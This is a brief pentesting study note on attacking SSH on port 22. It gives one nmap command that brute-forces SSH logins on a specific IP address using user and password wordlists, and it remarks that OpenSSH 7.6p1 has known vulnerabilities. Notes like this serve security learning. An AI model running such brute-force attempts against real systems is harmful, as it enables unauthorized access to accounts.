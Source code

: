```yaml
---
title: 22 ssh 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```


# 22 ssh


```bash
nmap 192.153.213.3 -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=/usr/share/nmap/nselib/data/passwords.lst
```

OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 is well known for some vulnerabilities.
